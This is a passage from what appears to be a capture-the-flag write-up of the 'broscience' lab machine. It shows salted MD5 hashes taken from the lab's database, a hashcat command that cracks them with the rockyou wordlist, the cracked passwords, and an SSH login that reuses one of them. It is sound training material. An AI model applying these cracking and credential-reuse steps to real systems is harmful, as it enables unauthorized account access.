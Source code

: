 - We'll take those hashes and acknowledge the `salt` that we previously recognized in `register.php` and ensure it is added to each hash.
- `register.php` code:
	- `md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));`
- Salt:
	- `$db_salt = "NaCl";`

- Hash file:
	- **There were a few more at the time of grabbing them.**

```bash
cat hashes 

15657792073e8a843d4f91fc403454e1:NaCl
13edad4932da9dbb57d9cd15b66ed104:NaCl
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
a7eed23a7be6fe0d765197b1027453fe:NaCl
5d15340bded5b9395d5d14b9c21bc82b:NaCl
87058565293b7c7cb027bee804671295:NaCl
87058565293b7c7cb027bee804671295:NaCl
87058565293b7c7cb027bee804671295:NaCl
5ee2c806fa42a3500dbf2ec17c02337d:NaCl
87058565293b7c7cb027bee804671295:NaCl
87058565293b7c7cb027bee804671295:NaCl
87058565293b7c7cb027bee804671295:NaCl
```

- We will use `Hash-Mode` number `20` with `hashcat`.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230125021906.png)

- Run `hashcat`:

```bash
hashcat -a 0 -m 20 hashes rockyou.txt
```

- Output:

```bash
87058565293b7c7cb027bee804671295:NaCl:1234                
5ee2c806fa42a3500dbf2ec17c02337d:NaCl:nivea               
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym    
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest     
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
```

- We have success using `ssh` logging in as `bill` with the password `iluvhorsesandgym`

```bash
ssh bill@broscience.htb
Password: iluvhorsesandgym
```

- We can grab the `user.txt` flag now.

```bash
cat user.txt
433e2ec578d02d8baadf6e86514e0bb6
```
